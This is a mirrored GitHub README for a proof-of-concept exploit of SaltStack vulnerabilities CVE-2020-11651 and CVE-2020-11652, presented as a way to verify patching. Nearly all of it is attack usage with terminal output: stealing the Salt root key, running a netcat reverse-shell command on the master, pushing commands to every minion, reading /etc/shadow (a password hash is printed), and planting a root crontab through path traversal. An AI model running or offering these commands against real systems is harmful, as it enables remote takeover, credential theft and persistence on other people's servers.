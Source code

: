 # CVE-2020-11651-poc

PoC exploit of CVE-2020-11651 and CVE-2020-11652

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/jasperla](https://github.com/jasperla) |
| Url      | [https://github.com/jasperla/CVE-2020-11651-poc](https://github.com/jasperla/CVE-2020-11651-poc)                                               |
| Stars    | 111                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# PoC exploit for CVE-2020-11651 and CVE-2020-11652

This is a proof of concept exploit based on the initial [check script](https://github.com/rossengeorgiev/salt-security-backports).
Use it to verify you have successfully updated your Salt master servers to a [release containing the required fixes](https://help.saltstack.com/hc/en-us/articles/360043056331-New-SaltStack-Release-Critical-Vulnerability).

Thanks for F-Secure Labs for their [research and reporting](https://labs.f-secure.com/advisories/saltstack-authorization-bypass/).

Currently this script can be used for filesystem access and scheduling commands on the master and all connected minions. Use these powers wisely!

## Usage

Default operation (without arguments) is to obtain the root key for the given master:

```
root@kalimah:~/salt# python3 exploit.py --master 192.168.115.130
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Salt version: 3000.1
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (192.168.115.130:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651...
[*] root key obtained: b5pKEa3Mbp/TD7TjdtUTLxnk0LIANRZXC+9XFNIChUr6ZwIrBZJtoZZ8plfiVx2ztcVxjK2E1OA=
root@kalimah:~/salt#
```

Executing arbitrary commands on the master:

```
root@kalimah:~/salt# python3 exploit.py --master 192.168.115.130 --exec "nc 127.0.0.1 4444 -e /bin/sh"
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Salt version: 3000.1
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (192.168.115.130:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651...
[*] root key obtained: b5pKEa3Mbp/TD7TjdtUTLxnk0LIANRZXC+9XFNIChUr6ZwIrBZJtoZZ8plfiVx2ztcVxjK2E1OA=
[+] Attemping to execute nc 127.0.0.1 4444 -e /bin/sh on 192.168.115.130
[+] Successfully scheduled job: 20200504153851746472
root@kalimah:~/salt#
```

The same, but on all minions:

```
root@kalimah:~/salt# python3 exploit.py --master 192.168.115.130 --exec-all="apt-get upgrade -y"
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Salt version: 3000.1
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (192.168.115.130:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651...
[*] root key obtained: b5pKEa3Mbp/TD7TjdtUTLxnk0LIANRZXC+9XFNIChUr6ZwIrBZJtoZZ8plfiVx2ztcVxjK2E1OA=
[!] Lester, is this what you want? Hit ^C to abort.
[+] Attemping to execute 'apt-get upgrade -y' on all minions connected to 192.168.115.130
[+] Successfully submitted job to all minions.
root@kalimah:~/salt#
```

Files can be read with:

```
root@kalimah:~/salt# python2 exploit.py --master 192.168.115.130 -r /etc/shadow
[+] Salt version: 2019.2.0
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (192.168.115.130:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651...
[*] root key obtained: GkJiProN36+iZ53buhvhm3dWcC/7BZyEomu3lSFucQF9TkrCRfA32EIFAk/yyQMkCyqZyxjjp/E=
[+] Attemping to read /etc/shadow from 192.168.115.130
root:$6$7qfolaa/$3yhszWj/VUJjfPaqr1yO6NLgV/FhHnVT9Pr6spwJ/F0BJw5vFM.3KjtwcnnuGo5uSJJkLrd28jXrmVZUD9nEI/:17812:0:99999:7:::
daemon:*:17785:0:99999:7:::
bin:*:17785:0:99999:7:::
sys:*:17785:0:99999:7:::
sync:*:17785:0:99999:7:::
games:*:17785:0:99999:7:::
man:*:17785:0:99999:7:::
[...]
```

Files can be uploaded using `--upload-src` and `--upload-dest`. Note the destination must be a relative path:


```
root@kalimah:~/salt#  python2 exploit.py --upload-src evil.crontab --upload-dest ../../../../../../var/spool/cron/crontabs/root
[+] Salt version: 2019.2.0
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (127.0.0.1:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651...
[*] root key obtained: GkJiProN36+iZ53buhvhm3dWcC/7BZyEomu3lSFucQF9TkrCRfA32EIFAk/yyQMkCyqZyxjjp/E=
[-] Destination path must be relative
[+] Attemping to upload evil.crontab to ../../../../../../var/spool/cron/crontabs/root on 127.0.0.1
[ ] Wrote data to file /srv/salt/../../../../../../var/spool/cron/crontabs/root
```

## Requirements

- Python 2 or 3
- Salt (`pip3 install salt`)



## Get the content

```
git clone https://github.com/jasperla/CVE-2020-11651-poc
cd CVE-2020-11651-poc
```

{% embed url="https://github.com/jasperla/CVE-2020-11651-poc" %}

<figure><img src="https://avatars.githubusercontent.com/u/637504?v=4" alt=""><figcaption><p>jasperla</p></figcaption></figure>

